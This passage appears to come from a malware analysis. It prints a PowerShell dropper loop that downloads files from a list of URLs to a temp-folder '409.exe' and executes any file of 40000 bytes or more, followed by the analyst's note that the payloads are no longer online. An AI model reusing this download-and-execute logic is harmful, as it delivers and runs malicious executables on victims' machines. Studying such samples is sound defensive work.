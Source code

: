 $filenameInTempFolder=$env:temp+'\409.exe';
foreach($url in $URLS){
	try{
		$webClient.DownloadFile($url, $filenameInTempFolder);
		If ((Get-Item $filenameInTempFolder).length -ge 40000) {
			Invoke-Item $filenameInTempFolder;
			break;
		}
	} catch {
	}
}
</pre>

Obviously, script downloads each file, one by one, according to the url, into the file with name `409.exe`, into a temporary folder and run it. Unfortunately, these files no longer exist and no further analysis is possible.